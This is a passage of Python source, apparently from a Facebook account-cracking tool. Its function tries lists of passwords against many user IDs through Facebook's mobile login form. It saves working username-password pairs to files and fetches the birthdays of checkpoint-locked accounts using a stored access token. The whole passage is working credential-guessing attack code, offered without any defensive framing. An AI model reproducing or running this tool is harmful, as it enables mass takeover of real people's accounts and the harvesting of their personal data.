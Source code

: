 			open("CP/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
			break
		else:
			continue

	loop += 1

def mobill(uid, fii):
	try:
		ua = open("ua", "r").read()
	except IOError:
		ua = "nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+"
	global ok, cp, loop, token, cookie
	sys.stdout.write(f"\r{P}[•] >>>>>> {B} {loop}/{len(id)} {I}OK : {B}{len(ok)} {K}CP : {B}{len(cp)}");sys.stdout.flush()
	for pw in fii:
		fii_gtg = {}
		pw = pw.lower()
		ses = requests.Session()
		ses.headers.update({"origin": "https://mbasic.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "mbasic.facebook.com", "referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
		p = ses.get("https://mobile.facebook.com/login/?next&ref=dbl&refid=8").text
		b = parser(p,"html.parser")
		bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for i in b("input"):
			try:
				if i.get("name") in bl:fii_gtg.update({i.get("name"):i.get("value")})
				else:continue
			except:pass
		fii_gtg.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		deku = ses.post("https://mobile.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Fmbasic.facebook.com%2F&lwv=100&refid=8",data=fii_gtg)
		if "c_user" in ses.cookies.get_dict().keys():
			kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
			print(f"\r{B} |----> {I}{uid}•{pw}")
			ok.append("%s|%s"%(uid, pw))
			open("OK/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
			break
		elif "checkpoint" in ses.cookies.get_dict().keys():
			try:
				token  = open('login/token.json','r').read()
				cookie = {'cookie':open('login/cookie.json','r').read()}
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token),cookies=cookie).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print(f"\r{B} |----> {K}{uid}•{pw}•{day} {month} {year}")
					cp.append("%s|%s"%(uid, pw))
					open("CP/%s.json"%(tanggal),"a").write("%s|%s|%s %s %s\n"%(uid, pw, day, month, year))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			print(f"\r{B} |----> {K}{uid}•{pw}")